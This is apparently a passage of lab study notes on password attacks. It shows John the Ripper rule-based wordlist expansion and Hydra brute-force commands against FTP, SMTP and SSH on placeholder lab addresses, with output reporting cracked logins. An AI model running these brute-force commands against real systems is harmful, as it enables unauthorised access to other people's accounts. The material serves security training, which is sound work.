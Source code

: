 Now let's create a file containing a single word `password` to see how we can expand our wordlist using this rule.
```
user@machine$ echo "password" > /tmp/single.lst
```
```
user@machine$ john --wordlist=/tmp/single.lst --rules=THM-Password-Attacks --stdout 
Using default input encoding: UTF-8 
!password0 
@password0 
#password0 
$password0
```

### Online password attacks

#### Hydra
- FTP
```
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
```
`-l` ftp we are specifying a single username, use `-L` for a username wordlist  
`-P` Path specifying the full path of wordlist, you can specify a single password by using `-p`.  
`ftp://10.10.x.x` the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

- SMTP
```
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

- SSH
```
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```
